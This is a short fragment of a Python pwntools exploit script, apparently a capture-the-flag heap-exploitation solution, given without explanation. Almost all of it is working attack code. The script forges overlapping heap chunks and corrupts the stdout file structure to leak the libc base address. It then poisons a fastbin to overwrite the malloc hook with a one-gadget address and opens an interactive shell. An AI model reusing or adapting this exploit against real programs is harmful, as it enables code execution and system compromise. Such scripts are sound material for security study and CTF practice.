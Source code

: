 ```python
            edit(0, p64(0) * (0xf8 / 8) + '\xb1')
            edit(1, 'a' * 0xf0 + p64(0) + p64(0x61))
            delete(1)

            add(1, 0x130, 'a'*8)
            delete(2)
            add(2, 0x50, 'a' * 0x30 + p64(0) + p64(0x71) + '\xdd\x25')
            add(3, 0x60, 'a'*8)
            add(4, 0x60, 'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
            
            libc = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x3c5600
            leak('libc leak',libc)
            delete(7)
            edit(5, 'a' * 0x60 + p64(0) + '\x61')
            delete(6)
            add(6, 0x50, 'a' * 0x30 + p64(0) + p64(0x71) + p64(libc + 0x3c4aed))
            add(7, 0x60, 'a'*8)
            realloc = libc + 0x84710
            payload = 'a' * 0xb + p64(libc + 0x4527a) + p64(realloc + 6)
            add(7, 0x60, payload)
            leak('realloc',realloc)

            sh.interactive()
        except :
            pass
```

